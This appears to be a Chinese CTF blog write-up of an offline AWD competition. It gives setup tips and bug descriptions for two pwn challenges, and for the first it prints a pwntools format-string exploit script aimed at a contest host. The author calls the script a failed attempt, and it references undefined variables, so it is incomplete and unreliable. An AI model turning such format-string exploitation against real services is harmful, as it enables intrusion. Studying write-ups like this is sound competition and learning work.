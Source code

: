 ```yaml
---
title: 磐石行动高校赛2024 - AWD
date: 2024/7/25 16:39:00
updated: 2024/7/25 16:39:00
tags:
    - awd
    - offline
thumbnail: /images/shanghai2024awd.jpg
excerpt: 首次线下参赛未获分数但获得保底三等奖，揭示了靶机漏洞及利用技巧。
---
```


第一次线下参加awd比赛，手忙脚乱的，一分也没拿，最后吃了保底三等奖:(

{% notel green fa-circle-info 网上不会说的背景信息 %}
1. 靶机分为4台，分别有4个服务，2web，2pwn，有独立ip
2. 不给密码给私钥，需要通过私钥连靶机，由于ssh对安全要求高，需要将密钥权限设为 **0400**
3. 给的靶机内核极老，是3.10还是3.15
4. 系统里没有挂载procfs，所以ps是看不了的
5. patch脚本要熟练，对手不会时间给你看题，特别是web
{% endnotel %}

## 第一题

找到2个洞：`scanf`溢出写和`snprintf`格式化字符串漏洞

![scanf](/assets/shanghai2024/0pwn1.png)
![snprintf](/assets/shanghai2024/0pwn2.png)

{% folding cyan::个人的失败脚本 %}
本地打通了，结果远程打不通

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './0pwn'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('10.103.5.4', 8888)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'$', b'Init')
    sh.sendlineafter(b'Size', str(0x40).encode())
    for i in range(0x40):
        sh.sendlineafter(b'char', b'|')
        sh.sendlineafter(b'weight', b'1')

    def fmt_attack(fmt:bytes):
        sh.sendlineafter(b'$', b'Encode')
        sh.sendlineafter(b'length', str(0xa0).encode())
        sh.sendlineafter(b'Input', '|'.join(fmt).encode())

    fmt_attack(f'%{0x50 + 5}$p' + '0'*0x30)

    fmt_attack(f'%{1}$p')
    sh.recvuntil(b'characters:\n')
    dest = int(sh.recvline(), 16) & 0xffffffffff00
    info(hex(dest))

    fmt_attack(f'%{0x5d + 5}$hhn')
    fmt_attack(f'%{0xc0}c%{dest_arg}$hhn')
    fmt_attack(f'%c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x52}c%{dest_arg}$hhn')
    fmt_attack(f'%2c%{0x5d + 5}$hhn')
    fmt_attack(f'%{0x40}c%{dest_arg}$hn')
    fmt_attack(f'%4c%{0x5d + 5}$hhn')
    fmt_attack(f'%{dest_arg}$hn')
    fmt_attack(f'%{(dest - stack) // 8 + 0x57}$s')

    sh.interactive()
```
{% endfolding %}

## 第二题

也找到2个洞：`add`没有`\0`截断导致的地址泄露和`change`中的堆块越界写

![add](/assets/shanghai2024/1pwn1.png)
![change](/assets/shanghai2024/1pwn2.png)

